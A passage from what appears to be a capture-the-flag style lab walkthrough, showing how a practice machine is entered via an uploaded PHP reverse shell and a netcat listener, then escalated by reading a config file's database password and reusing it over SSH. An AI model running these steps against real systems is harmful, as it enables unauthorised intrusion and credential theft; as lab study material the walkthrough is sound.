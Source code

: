 PHP *executes on the server*, so whatever PHP is capable of doing, we can leverage to execute a [rev shell](cybersecurity/TTPs/exploitation/rev-shell.md). An easy PHP shell for us to use is [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentest monkey. Copy and paste the code, change the hostname and port values, and make sure [netcat](cybersecurity/tools/exploitation/netcat.md) is listening on the port.
```bash
nc -lvnp 44444
listening on [any] 44444 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 51562
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 16:48:43 up 11:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                Thu13   24:46m  0.04s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
$ www-data
```
## Privilege Escalation
You've entered the machine as `www-data` who does not have a lot of permissions. However, with some snooping, we find a lot of tasty files w/i our reach in the. Specifically in `/var/www/html/includes` we find `config.php`. Let's cat that:
```bash
$ cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
```
*We've found Grimmie's password!* This is specifically for mysql but we know that *Grimmie uses the same password for everything*. So let's try escalating our privilege by [SSH](networking/protocols/SSH.md)ing in as Grimmie:
```bash
ssh grimmie@10.0.2.15
grimmie@10.0.2.15''s password: My_V3ryS3cur3_P4ss
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct  5 20:45:41 2023 from 10.0.2.4
grimmie@academy:~$  # <--- we in
```
## Grimmie
Now that we're logged in as Grimmie, let's see what they have in their home dir.
```bash
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```
This file is removing a backup file, zipping a new one from the `.../html/academy/includes` dir, and setting permissions on it to root only.
